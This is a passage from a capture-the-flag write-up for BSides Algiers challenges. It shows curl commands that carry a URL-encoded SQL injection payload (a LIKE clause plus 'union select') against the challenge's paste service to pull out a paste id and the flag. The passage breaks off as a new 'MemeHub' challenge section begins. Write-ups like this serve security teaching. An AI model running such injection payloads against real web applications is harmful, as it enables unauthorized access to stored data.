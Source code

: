 then get the id of the paste containing the flag

P.S: `union select 'x'` act as a comment because regular comments somehow doesn't work.

```bash
th3jackers$ curl "http://chall.bsidesalgiers.com:8001/paste/veisbzgx/id%20from%20pastes%20where%20text%20like%20%22%shellmates%7B%%22%20%20union%20select%20'x'"

sp05m8vu
```

```bash
th3jackers$ curl "http://chall.bsidesalgiers.com:8001/paste/sp05m8vu/text"

shellmates{2021_y3t_sQl_1nj3ct10ns_4r3_st1ll_4_pr0bl3m}
```

Flag:  `shellmates{2021_y3t_sQl_1nj3ct10ns_4r3_st1ll_4_pr0bl3m}`

<a name="memehub"></a>
## MemeHub

![memehub_home](images/3_1.png)

For this specific challenge, i will make two different solutions,
the intended way and the UNintended way XD

### UNintended way

The first thing i did was checking the url of the images
